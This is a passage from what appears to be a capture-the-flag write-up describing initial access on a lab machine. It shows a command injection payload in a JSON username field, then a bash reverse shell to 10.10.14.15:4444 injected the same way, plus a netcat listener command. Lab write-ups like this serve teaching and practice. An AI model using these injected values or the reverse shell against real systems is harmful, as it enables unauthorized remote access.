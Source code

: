 > Great. I got the configuration output for the `ovpn` file.

---
## 🔓 Initial Access

> Checking the possibility for `command injection`. I substitute the `whoami` command into the request body (for example):

```http

{

"username": "sonyahack1; whoami ;"

}

```
> Response:

```http

www-data

```
> Ok. Command injection works, so I can try to create a connection to gain access to the system.
> I make a request with reverse shell:

```http

{

"username": "sonyahack1; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1' ;"

}

```

> **Note:** I pre-start the listener:

```bash

nc -lvnp 4444

```

> I send a request and get a `reverse shell` to the target system under the `www-data` user.

> initial access
![revshell_www-data](./screenshots/revshell_www-data.png)

---